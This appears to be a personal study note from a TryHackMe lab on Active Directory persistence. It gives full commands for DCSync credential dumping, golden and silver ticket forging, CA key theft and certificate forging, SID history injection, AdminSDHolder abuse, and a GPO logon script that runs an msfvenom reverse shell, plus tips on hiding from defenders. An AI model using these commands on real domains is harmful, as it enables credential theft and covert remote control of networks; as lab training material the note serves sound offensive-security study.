

- The process of attacking AD is cyclic.
- This ensures that if one of our positions gets burnt by the blue team, we have several fallbacks.
- ## *Persistence Through Credentials*
	- #### *DC Sync*
		- In large organizations, the domains have multiple DCs to not delay any authentication services.
		- How is it possible for you to authenticate using the same credentials in two different offices?
			- Domain replication is the answer, each DC runs a process the Knowledge Consistency Checker (KCC).
			- The KCC generates a replication topology for the AD forest and automatically connects to other domain controllers through Remote Procedure Calls (RPC) to synchronize information.
			- This includes updated information such as the user's new password and new objects such as when a new user is created.
			- This is why you usually have to wait a couple of minutes before you authenticate after you have changed your password since the DC where the password change occurred could perhaps not be the same one as the one where you are authenticating to.
			- The process of replication is called DC Synchronization.
			- It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating a new domain controller.
		- A popular attack to perform is a DC Sync attack. If we have access to an account that has domain replication permissions, we can stage a DC Sync attack to harvest credentials from a DC.
		- Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for.
		- While we should always look to dump privileged credentials like Domain Admin group members, they will be rotated by blue team if we get discovered.
		- The goal then is to persist with near-privileged credentials.
			- **Credentials that have local administrator rights on several machines.**
			- **Service accounts that have delegation permissions.**
			- **Accounts used for privileged AD services.**
	- #### *DCSync All*
		- Using mimikatz to harvest credentials
			- Start mimikatz `.\mimikatz.exe`.
			- Perform a DC Sync for a single account, our own `lsadump::dscync /domain:<domain> /user:<username>`.
			- To perform a DC Sync on all users, we have to enable logging `log <username>_dcdump.txt`.
			- Now dump all using `lsadump::dcsync /domain:<domain> /all`.
- ## *Persistence Through Tickets*
	- As we often want to persist through service accounts with delegation permissions to forge silver and golden tickets.
	- Kerberos authentication process 
	- #### *Golden Tickets*
		- They are forged TGT tickets, so we can skip steps 1 and 2.
		- To forge a golden ticket, we need the `krbtgt` account's password hash so that we can sign a TGT for any user account we want.
		- Some notes about Golden Tickets
			- By injecting at this stage of the Kerberos process, we don't need the password hash of the account we want to impersonate since we bypass that step. The TGT is only used to prove that the KDC on a DC signed it. Since it was signed by the KRBTGT hash, this verification passes and the TGT is declared valid no matter its contents.
			- The KDC will only validate the user account specified in the TGT if it is older than 20 minutes. This means we can put a disabled, deleted, or non-existent account in the TGT, and it will be valid as long as we ensure the timestamp is not older than 20 minutes.
			- Since the policies and rules for tickets are set in the TGT itself, we could overwrite the values pushed by the KDC, such as, for example, that tickets should only be valid for 10 years granting us persistence.
			- By default, the KRBTGT account's password never changes, meaning once we have it, unless it is manually rotated, we have persistent access by generating TGTs forever.
			- The blue team would have to rotate the KRBTGT account's password twice, since the current and previous passwords are kept valid for the account. This is to ensure that accidental rotation of the password does not impact services.
			- Rotating the KRBTGT account's password is an incredibly painful process for the blue team since it will cause a significant amount of services in the environment to stop working. They think they have a valid TGT, sometimes for the next couple of hours, but that TGT is no longer valid. Not all services are smart enough to realize the TGT is no longer valid (since the timestamp is still valid) and thus won't auto-request a new TGT.
			- Golden tickets would even allow you to bypass smart card authentication, since the smart card is verified by the DC before it creates the TGT.
			- We can generate a golden ticket on any machine, even one that is not domain-joined (such as our own attack machine), making it harder for the blue team to detect.
		- Data required are
			- KRBTGT account's password hash.
			- Domain name.
			- Domain SID.
			- User ID of the user we want to impersonate.
		- Get the the required data from `lsadump::dcsync /domain:<domain> /all` and the Domain SID using PowerShell `Get-ADDomain`.
		- Then using mimikatz, run `kerberos::golden /admin:<any-random-user> /domain:<domain> /id:<user-RID> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /endin:600 /renewmax:10080 /ptt`
			- `/admin` the username we want to impersonate, doesn't have to be valid.
			- `/domain` the FQDN of the domain.
			- `/id` the user RID, Administrator RID by default is 500.
			- `/sid` domain SID.
			- `/krbtgt` the NTLM hash of KRBTGT.
			- `/endin` the ticket lifetime, by default, mimikatz generate a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 mins).
			- `/renewmax` the maximum ticket lifetime with renewal. By default, Kerberos policy of AD is 7 days (10080 mins).
			- `/ptt` this tells mimikatz to inject the ticket directly into the session.
		- Verify that the golden ticket is working by running `dir` command against the DC `dir \\thmdc.za.tryhackme.loc\c$\`.
	- #### *Silver Tickets*
		- They are forged TGS tickets, so we can skip steps 1-4.
		- Some notes about Silver Tickets
			- The generated TGS is signed by the machine account of the host we are targeting.
			- The main difference between Golden and Silver Tickets is the number of privileges we acquire. If we have the KRBTGT account's password hash, we can get access to everything.
			- With a Silver Ticket, since we only have access to the password hash of the machine account of the server we are attacking, we can only impersonate users on that host itself. The Silver Ticket's scope is limited to whatever service is targeted on the specific server.
			- Since the TGS is forged, there is no associated TGT, meaning the DC was never contacted. This makes the attack incredibly dangerous since the only available logs would be on the targeted server. So while the scope is more limited, it is significantly harder for the blue team to detect.
			- Since permissions are determined through SIDs, we can again create a non-existing user for our silver ticket, as long as we ensure the ticket has the relevant SIDs that would place the user in the host's local administrators group.
			- The machine account's password is usually rotated every 30 days, which would not be good for persistence. However, we could leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account.
			- While only having access to a single host might seem like a significant downgrade, machine accounts can be used as normal AD accounts, allowing you not only administrative access to the host but also the means to continue enumerating and exploiting AD as you would with an AD user account.
		- Generate a ticker using `kerberos::golden /admin:<any-random-user> /domain:<domain> /id:500 /sid:<domain-sid> /target:<hostname-server-target> /rc4:<ntlm-hash> /service:<service> /ptt`
			- `/target` the hostname of the target server.
			- `service` the service we are requesting in our TGS, CIFS is a safe bet, since it allows file access.
		- Verify that the ticket is working by using `dir` against the target server `dir \\thmserver1.za.tryhackme.loc\c$`.
- # NOTE: TAKE CAUTION WHEN USING THE FOLLOWING TECHNIQUES AS THEY ARE INVASIVE AND HARD TO REMOVE.
- ## *Persistence Through Certificates*
	- Use certificates for authentication which would give us persistence even if the blue team rotated the passwords.
	- This would allow us to request TGTs with the certificate, the only way we can be locked out is by revoking our certificate or it expires.
	- We can even go after the CA itself. Depending on our access, we could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it and since these certificates were never issued by the CA, the blue team has no ability to revoke them. This would be even worse for the blue team since it would mean a rotation of the CA, meaning all issued certificates would have to be revoked by the blue team to kick us out.
	- #### *Extracting the Private Key*
		- The private key of the CA is stored on the CA server itself. 
		- If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI).
		- We can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA.
		- **Steps**
			- After gaining access to the DC.
			- Transfer and start mimikatz `.\mimikatz.exe`
			- View certificates using `crypto::certificates /systemstore:local_machine`.
			- Some certificates will not allow it being exported, mimikatz allows us to patch memory to make these keys exportable
				- `privilege::debug`
				- `crypto::capi`
				- `crypto::cng`
			- Export the certificates using `crypto::certificates /systemstore:local_machine /export`
			- In order to export the private key, a password must be set to encrypt the certificate, by default mimikatz uses `mimikatz` as password.
			- Copying the certificate to the attacking machine using `scp Administrator@thmdc.za.tryhackme.loc:C:/Users/Administrator/<cert-name> ./`.
			- Generate our own certificate using `ForgeCert.exe --CaCertPath <certificate> --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123`
				- `CaCertPath` the path to the exported certificate.
				- `CaCertPassword` the password used to encrypt the certificate.
				- `Subject` the subject or common name of the certificate.
				- `SubjectAltName` this is the User Principle Name (UPN) of the account we want to impersonate with this certificate. Has to be a legitimate user.
				- `NewCertPath` the path to where ForgeCert will store the new certificate.
				- `NewCertPassword` the new password that the certificate will be encrypted with.
			- Use `Rubeus` to request a TGT using the certificate to verify that the certificate is trusted `Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path-to-cert> /password:<cert-pass-file> /outfile:<name-of-file-to-write-tgt-to>.kirbi /domain:za.tryhackme.loc /dc:<dc-ip>`
				- `/user` the user that we will impersonate and has to match the UPN for the certificate we generated.
				- `/enctype` the certificate encryption type, important for evasion.
				- `/certificate` path to generated certificate.
				- `/password` password of the cert file.
				- `/outfile` the file where our TGT will be stored.
				- `/domain` the FQDN of the domain
				- `/dc` DC IP, it is best to select a DC that has a CA service running.
			- Load the created ticket in mimikatz
				- `.\mimikatz.exe`
				- `kerberos::ptt <ticket-name>`
			- Check ticket is applied using `dir \\thmdc.za.tryhackme.loc\c$\`.
- ## *Persistence Through SID History*
	- Security Identifiers (SID) are used to track the security principal and the account's access when connecting to resources. There is, however, an interesting attribute on accounts called the SID history. 
	- SID history is used to enable access for an account to effectively be cloned to another. This becomes useful when an organisation is busy performing an AD migration as it allows users to retain access to the original domain while they are being migrated to the new one.
	- In the new domain, the user would have a new SID, but we can add the user's existing SID in the SID history, which will still allow them to access resources in the previous domain using their new account. While SID history is good for migrations, we, as attackers, can also abuse this feature for persistence.
	- SID history is not restricted to only including SIDs from other domains. With the right permissions, we can just add a SID of our current domain to the SID history of an account we control. Some interesting notes about this persistence technique
		- We normally require Domain Admin privileges or the equivalent thereof to perform this attack.
		- When the account creates a logon event, the SIDs associated with the account are added to the user's token, which then determines the privileges associated with the account. This includes group SIDs.
		- We can take this attack a step further if we inject the Enterprise Admin SID since this would elevate the account's privileges to effective be Domain Admin in all domains in the forest.
		- Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group. Making this a very sneaky method of persistence.
	- #### *Forging History*
		- Check the low-privileged user SID history, and make sure it doesn't contain anything `Get-ADUser <username> -properties sidhistory,memberof`.
		- Get the SID of the Domain Admins group using `Get-ADGroup "Domain Admins"`.
		- Use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the `ntds.dit` file, the AD database where all information is stored
			- `Stop-Service -Name ntds -force`
			- `Add-ADDBSidHistory -SamAccountName '<low-priv-username>' -SidHistory '<domain-admins-group-sid>' -DatabasePath C:\Windows\NTDS\ntds.dit`
			- `Start-Service -Name ntds`
		- Check that the forging is done correctly using `Get-ADUser <low-priv-username> -properties sidhistory`.
		- We should also be able to access the DC since we gained Domain Admin privileges `dir \\thmdc.za.tryhackme.loc\c$\`.
	- If you were to `RDP` into one of the hosts and use the AD Users and Groups snap-in, you would be able to view the SID history attribute added to your user. However, even with the highest possible privileges, you would not be able to remove the attribute since it is protected. In order to remove this, you would have to use tools such as the `AD-RSAT` PowerShell cmdlets to remove SID history.
	- However, before you can even think about removing malicious SID history attributes, you first need to find them. None of the regular tools will tell you that something is wrong. That user will not all of a sudden pop up as a member of the Domain Admins group. So unless you are actively filtering through the attributes of your users, this is incredibly hard to find. This is because the SID history is only applied and used once the user authenticates.
- ## *Persistence Through Group Membership*
	- The most privileged account, or group, is not always the best to use for persistence.
	- Privileged groups are monitored more closely for changes than others. Any group that classifies as a protected group, such as Domain Admins or Enterprise Admins, receive additional security scrutiny.
		- The IT Support group can be used to gain privileges such as force changing user passwords. Although, in most cases, we won't be able to reset the passwords of privileged users, having the ability to reset even low-privileged users can allow us to spread to workstations.
		- Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.
		- It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence.
	- #### *Nested Groups*
		- In most organisations, there are a significant amount of recursive groups. A recursive group is a group that is a member of another group.
		- This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new member is added to the Domain Admins group. But it won't fire off if a user is added to a subgroup within the Domain Admins group. This is a very common problem since AD is managed by the AD team, and alerting and monitoring are managed by the InfoSec team. All we need is a little bit of miscommunication, and the alert is no longer valid since subgroups are used.
		- As an attacker, we can leverage this reduced visibility to perform persistence. Instead of targeting the privileged groups that would provide us with access to the environment, we focus our attention on the subgroups instead.
		- **Steps**
			- Create a base group that we will hide in the People &rarr; IT OU `New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security`.
			- Create a another group in the People &rarr; Sales OU and add our previous group as a member `New-ADGroup -Path "OU=Sales,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"`
			- We can do this a couple of more times
				- `New-ADGroup -Path "OU=Consulting,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"`
				- `New-ADGroup -Path "OU=Marketing,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"`
				- `New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"`
			- And with the last group add them to the Domain Admins group `Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"`
			- Add the low-privileged user to the first group `Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low-priv-username>"`
			- That low-privileged user should now have access to THMDC.
- ## *Persistence Through ACLs*
	- #### *Persisting Through AD Group Templates*
		- In order to ensure a bit better persistence and make the blue team scratch their heads, we should rather inject into the templates that generate the default groups. By injecting into these templates, even if they remove our membership, we just need to wait until the template refreshes, and we will once again be granted membership.
		- One such template is the AdminSDHolder container. This container exists in every AD domain, and its Access Control List (ACL) is used as a template to copy permissions to all protected groups. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.
		- A process called SDProp takes the ACL of the AdminSDHolder container and applies it to all protected groups every 60 minutes. We can thus write an ACE that will grant us full permissions on all protected groups.
			- Use `runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe` to inject the Administrator credentials and then execute MMC from this new terminal.
			- Add the Users and Groups Snap-in. Make sure to enable Advanced Features (View > Advanced Features).
			- The AdminSDHolder group can be found under Domain > System.
			- Navigate to the Security of the group (Right-click > Properties > Security).
			- Add the low-privileged user and grant Full Control.
		- Now wait 60 mins max, and our user will have full control over all Protected Groups. Because the Security Descriptor (SDProp) service executes automatically every 60 mins and will propagate this change to all Protected Groups.
		- We can otherwise kick off the process manually using `Import-Module .\Invoke-ADSDPropagation.ps1` then `Invoke-ADSDPropagation`.
- ## *Persistence Through GPOs*
	- Group Policy Management in AD provides a central mechanism to manage the local policy configuration of all domain-joined machines.
	- This includes configuration such as membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup.
	- It can be targeted by attackers to deploy persistence across the entire estate. What is even worse is that the attacker can often hide the GPO in such a way that it becomes almost impossible to remove it.
	- #### *Domain Wide Persistence*
		- Restricted Group Membership
			- This could allow us administrative access to all hosts in the domain
		- Logon Script Deployment
			- This will ensure that we get a shell callback every time a user authenticates to a host in the domain.
		- While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are actively working on them.
		- To do this, we will create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.
		- **Create Reverse Shell**
			- Create a shell using `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > shell.exe`.
		- **Create Batch Script**
			- Windows allows us to execute Batch or PowerShell scripts through the logon GPO. Batch scripts are often more stable than PowerShell scripts so lets create one that will copy our executable to the host and execute it once a user authenticates.
			- Create the Batch script that should contain `copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\shell.exe C:\tmp\shell.exe && timeout /t 20 && C:\tmp\shell.exe`.
		- **Transfer the Scripts**
			- Copy the scripts to the SYSVOL directory using `scp shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/` and `scp script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/`.
		- **Start the Listener** 
			- Using `msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost persistad; set lport 4445; exploit"`.
		- **Create GPO**
			- In the runas spawned terminal open MMC
			- Click on File > Add/Remove Snap-in
			- Select Group Policy Management snap-in and click add
			- Click ok
			- Right-click the OU and select Create a GPO
			- Right-click on the policy and select Enforced, this makes sure our policy takes precedence.
			- In the Group Policy Management Editor
				- Under User Configuration, expand Policies > Windows Settings
				- Select Scripts (logon/logoff)
				- Right-click on Logon > Properties
				- Select the Scripts tab
				- Click Add > Browse
				- Navigate to where we stored the batch file created earlier, select it and click Open and Ok
				- Click Apply and Ok
				- This ensures that when an Administrator logs into any machine, we get a callback.
		- **Hiding in Plain Sight**
			- Back the MMC window, click on the policy and then click on Delegation
			- By default, all admins can edit the GPOs, remove these permissions
				- Right-click on ENTERPRISE DOMAIN CONTROLLERS and select Edit settings, delete, modify security
				- Click on all other groups (except Authenticated Users) and click Remove
				- Click on Advanced and remove the Created Owner from the permissions
- ## *Mitigations*
	- Anomalous account logon events are the most common alert for persistence. Any time credentials break the tiering model, it can be as a result of persistence.
	- For each of the persistence techniques mentioned, specific detection rules can be written, such as cases when a machine account's password changes, ACLs are permissively updated, or new GPOs are created.  
	- The best defence against persistence is to protect privileged resources. Although low privileged access can be used to deploy persistence, the truly scary techniques only become available once an attacker has acquired privileged access to the domain.